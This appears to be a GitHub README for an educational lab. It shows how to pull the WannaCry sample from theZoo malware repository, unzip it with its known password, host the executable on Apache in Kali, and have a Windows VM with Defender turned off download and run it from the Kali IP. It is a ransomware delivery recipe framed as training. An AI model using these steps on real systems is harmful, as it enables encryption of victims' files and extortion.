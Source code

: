 <h1>Ransomware Attack on VMware using Kali Linus</h1>

<h2>Description</h2>
The project consists of a simple procedure of attacking a client using Ransomware. The specific malware deployed in this lab is WannaCry. Recall that Ransomware is an example of malware where the attacker’s request payment with a threat. The attacker can hide/encrypt all or part of the victim’s file system and request payment to get access back to the encrypted files. The attacker can threaten to release the victim’s data to the public if they don’t pay. 
<br />

<h2>NOTE</h2>
Users should understand the importance of Windows Defender and other Virus & Threat Protection Settings. This should not be turned off for whatever reason. The implication is that user education is very necessary in any organization because human error such as turning off these important settings might put the company at risk. 

<h2>WARNING</h2>
This is for educational purposes only and should not be used to attack unsuspecting victims. DO NOT run or open the ransomware file you create in this lab on your host computer. Use your Windows 10/11 virtual machine. Take a snapshot of your VM before you run the ransomware file. 


<h2>Languages and Utilities Used</h2>

- <b>Apache</b> 
- <b>Zoo</b>

<h2>Environments Used </h2>

- <b>Windows 10</b> (21H2)
- <b>Kali</b>
  
<h2>Program walk-through:</h2>

<p align="center">
1.	Connect Kali to NAT.In the Kali Linux, open a terminal and then type hostname -I to retrieve the IP address of the Linux
<br/>
<img src="https://imgur.com/vFnkFmK.png" height="80%" width="60%" alt="Disk Sanitization Steps"/>
<br />
<br />
2. Run the following command to access the code in the repository: git clone https://github. com/ytisf/
theZoo.git
<br/>
<img src="https://imgur.com/tfK6agD.png" height="80%" width="60%" alt="Disk Sanitization Steps"/>
<br />
<br />
3. Run the list command: ls <br/>
<img src="https://imgur.com/dSk8hSC.png" height="80%" width="50%" alt="Disk Sanitization Steps"/>
<br />
<br />
4. Navigate into theZoo directory. Run cd theZooUse ls to see the contents of theZoo directory
<br/>
<img src="https://imgur.com/SHWmZ6K.png" height="80%" width="40%" alt="Disk Sanitization Steps"/>
<br />
<br />
5.	Run pip install --user -r require ments.txt. Wait for the installations to complete. <br/>
<img src="https://imgur.com/x9fcs3n.png" height="80%" width="50%" alt="Disk Sanitization Steps"/>
<br />
<br />
6. Running python theZoo.py gives an error, so Run python 2 theZoo.py will be better. Type YES when prompted
<br/>
<img src="https://imgur.com/3NGLzPH.png" height="80%" width="80%" alt="Disk Sanitization Steps"/>
</p>
<br />
<br />
<p align="center">
7. After installation, type Update-db at the mdb prompt and list all to identify WannaCry.<br/> 
<img src="https://imgur.com/WITbzxH.png" height="80%" width="60%" alt="Disk Sanitization Steps"/>
<p align="center">
8. Run the following commands: 
ls (To show the zipped ransomware file); 
cat Ransomware.WannaCry.Pass (Enter the password as; infected);
unzip Ransomware.WannaCry.zip (To unzip the file and then enter the password as; infected);
mv ...file name (To make it an executable file);
ls (To verify that the presence of the executable ransomware);
sudo mv MySweetHeart.exe /var/www/html;
sudo service apache2 start (Start Apache);
<br/>
<br />
<img src="https://imgur.com/x0x2aNf.png" height="80%" width="60%" alt="Disk Sanitization Steps"/>
<p align="center">
<br />
<br />
9. You may need to turn off the Windows Defender Firewall settings for the ransomware attack to work
<br />
<br />
<img src="https://imgur.com/nCNE2af.png" height="80%" width="60%" alt="Disk Sanitization Steps"/>
<p align="center">
10. Turn off the Virus & threat protections settings too
<br />
<br />
<img src="https://imgur.com/FKiuWhY.png" height="80%" width="60%" alt="Disk Sanitization Steps"/>
<p align="center">
<br />
<br />
11. In windows client, open a browser and enter http://Kali-IP-Address/ransomware.exe. 
<br />
<br />
<img src="https://imgur.com/kZVgZO1.png" height="80%" width="60%" alt="Disk Sanitization Steps"/>
<p align="center">
<br />
<br />
12. Select “run” when prompted. Select “yes” when prompted. The Ransomware is activated on the screen now! The windows client is under attack. 
<br />
<br />
<img src="https://imgur.com/xsFjrTb.png" height="80%" width="60%" alt="Disk Sanitization Steps"/>
<p align="center">
<br />
<br />
13. The users files are encrypted and they attackers are now requesting a ransome. 
<br />
<br />
<img src="https://imgur.com/fwVX5zU.png" height="80%" width="60%" alt="Disk Sanitization Steps"/>
<p align="center">
<br />
<br />
  
<!--
 ```diff
- text in red
+ text in green
! text in orange
# text in gray
@@ text in purple (and bold)@@
```
--!>
